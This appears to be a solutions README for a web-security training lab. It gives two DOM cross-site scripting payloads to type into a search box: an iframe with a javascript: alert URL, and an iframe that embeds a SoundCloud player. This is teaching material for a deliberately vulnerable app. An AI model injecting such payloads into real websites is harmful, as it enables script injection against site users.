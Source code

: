 # SOLUTIONS

## 1.Dom Xss

### Objective

To Perform a DOM XSS attack with `<iframe src="javascript:alert(`xss`)">`

### Solution

Enter `<iframe src="javascript:alert(`xss`)">` at search box to solve the challenge.

![Lab Solved](img/dom-xss.png)

## 2.Bonus Payload

### Objective

To Perform a DOM XSS attack with payload:

```html
<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>
```

### Solution

Enter the below payload at search box to solve the challenge.

```html
<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>
```

![Lab Solved](img/bonus-payload.png)
